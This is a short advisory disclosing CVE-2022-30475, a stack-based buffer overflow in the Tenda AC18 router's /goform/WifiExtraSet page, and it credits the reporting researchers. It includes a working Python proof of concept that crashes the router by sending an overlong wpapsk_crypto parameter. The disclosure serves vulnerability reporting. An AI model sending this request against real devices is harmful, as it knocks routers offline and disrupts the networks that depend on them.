

# Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/WifiExtraSet` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromSetWirelessRepeat`.

In function `fromSetWirelessRepeat` it reads user provided parameter `wpapsk_crypto` into `victim_buf`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `vuln_buf`.



So by requesting the page `/goform/WifiExtraSet`, the attacker can easily perform a **Deny of Service Attack**.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/WifiExtraSet?"
url += "wl_mode=not_ap&security=wpapsk&wpapsk_key=kkkkkkkk&wpapsk_crypto=" + "s" * 0x600

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30475)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
